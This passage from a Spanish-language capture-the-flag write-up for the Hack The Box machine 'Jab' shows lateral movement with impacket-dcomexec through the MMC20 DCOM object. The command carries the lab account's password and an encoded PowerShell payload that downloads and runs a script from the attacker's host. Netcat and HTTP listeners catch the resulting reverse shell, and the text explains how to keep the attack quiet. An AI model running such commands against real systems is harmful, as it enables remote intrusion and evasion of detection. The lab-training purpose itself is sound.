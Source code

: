 Ahora vamos a utilizar Impacket para obtener una reverse shell utilizamos todos los comandos anteriormente mencionados para realizar lo siguiente.

```zsh
impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAOgA4ADAAMAAwAC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA' -object MMC20 -silentcommand
```


1. **`-object MMC20`**

 ¿Qué es `MMC20`?
- **`MMC20`** se refiere al objeto COM (Component Object Model) de **Microsoft Management Console (versión 2.0)**.
- Microsoft Management Console es una herramienta en Windows que permite administrar configuraciones de sistemas, como usuarios, servicios, y otros aspectos del sistema operativo.

 ¿Por qué se usa este objeto?
- Este objeto está presente en la mayoría de los sistemas Windows y, si no está restringido, permite ejecutar comandos en el sistema subyacente.
- Al utilizar `MMC20`, el atacante aprovecha el hecho de que el objeto COM puede invocar procesos o comandos como parte de sus funcionalidades administrativas.

 2. **`-silentcommand`**

- **`-silentcommand`** indica que el comando debe ejecutarse **silenciosamente**, es decir:
  - No se genera salida visible en la pantalla del atacante.
  - No hay notificaciones ni ventanas emergentes en el sistema objetivo.
- Es una forma de hacer que el ataque sea menos ruidoso y menos detectable.

Tenemos que tener una ventana como servidor web y otra ventana en escucha en el puerto 9001

```zsh
python3 -m http.server
```

```zsh
nc -lvnp 9001
```

Y tendremos acceso como svc_openfire 

<figure>
<img src="/assets/img/Jab/Imagen17.png" >
</figure>  
